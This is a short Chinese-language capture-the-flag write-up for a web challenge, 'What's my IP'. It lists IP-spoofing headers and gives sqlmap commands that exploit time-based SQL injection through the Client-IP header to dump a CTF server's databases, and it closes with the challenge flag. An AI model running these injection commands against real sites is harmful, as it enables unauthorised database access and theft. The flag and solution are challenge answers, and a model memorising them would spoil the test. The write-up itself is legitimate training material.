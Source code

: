 # What's my IP

- 點開題目網頁：
![image](https://github.com/jonafk555/My_CTF_Writeup/assets/75651364/065ae7b9-7647-4994-817d-476e48ae77d4)

可以觀察到這題後端邏輯大概是:
抓取你的請求IP --> 查詢該IP對應的Country code --> 顯示回頁面

- 第一步我們可以在Requset中加入一些能夠偽造請求IP的header，像是：
```
Client-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1
Host: 127.0.0.1
Referer: www.google.com
```
之後可以發現`Client-IP: `能夠讓網頁吃進去解析。

- 了解偽造IP後，接下來想做的事這個header能夠發揮什麼用途，以下幾點思路：
  - http requset smuggling/splitting
  - SQL injection
  - ...
 
# 這題是在`Client-IP:`中做SQL injection：
- 首先利用sqlmap：`sqlmap -u "http://web.ctf.d3vc0r3.tw:8001/" --headers="Client-IP: 111.111.111.111*" --random-agent`
  - ![image](https://github.com/jonafk555/My_CTF_Writeup/assets/75651364/89662a66-a637-4bbf-9c60-2e8a8630b30d)
  - 可以發現此題是一個time-based的SQL injection
- 接下來嘗試dump更多資訊：`sqlmap -u "http://web.ctf.d3vc0r3.tw:8001/" --headers="Client-IP: 111.111.111.111*" --random-agent --dump --dbs`
  - ![image](https://github.com/jonafk555/My_CTF_Writeup/assets/75651364/9b275006-e254-4b8a-9338-4fadfa8c5404)
 
- 最後dump table name：`sqlmap -u "http://web.ctf.d3vc0r3.tw:8001/" --headers="Client-IP: 111.111.111.111*" --random-agent --dump -D flag_vBu6eL -table`
  - ![image](https://github.com/jonafk555/My_CTF_Writeup/assets/75651364/99c8f223-d183-4ac3-b2ad-900dc175a390)
  - `DEVCORE{01d_sch00l_1s_sti11_g00d}`
